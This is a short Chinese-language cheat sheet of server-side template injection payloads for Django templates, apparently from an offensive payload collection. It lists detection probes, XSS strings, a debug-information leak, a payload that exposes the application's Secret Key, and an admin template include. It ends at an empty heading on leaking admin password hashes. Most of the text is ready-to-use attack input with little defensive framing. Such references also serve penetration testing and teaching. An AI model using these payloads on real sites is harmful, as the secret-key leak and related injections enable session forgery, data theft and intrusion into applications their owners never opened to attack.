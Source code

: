 
## Django 模板

Django 模板语言默认支持两种渲染引擎：Django 模板（DT）和 Jinja2。Django 模板是一个更简单的引擎。它不允许调用传递的对象函数，因此在 DT 中的 SSTI 影响通常比在 Jinja2 中要小。

### 检测


```python
{% csrf_token %} # 使用 Jinja2 会导致错误
{{ 7*7 }}  # 使用 Django 模板会导致错误
ih0vr{{364|add:733}}d121r # Burp 负载 -> ih0vr1097d121r
```

### Django 模板用于后渗透

```python
# 变量
{{ variable }}
{{ variable.attr }}

# 过滤器
{{ value|length }}

# 标签
{% csrf_token %}
```

### 跨站脚本攻击

```python
{{ '<script>alert(3)</script>' }}
{{ '<script>alert(3)</script>' | safe }}
```

### 调试信息泄露

```python
{% debug %}
```

### 泄露应用程序的 Secret Key

```python
{{ messages.storages.0.signer.key }}
```

### 管理站点 URL 泄露


```
{% include 'admin/base.html' %}
```

### 泄露管理员用户名和密码哈希
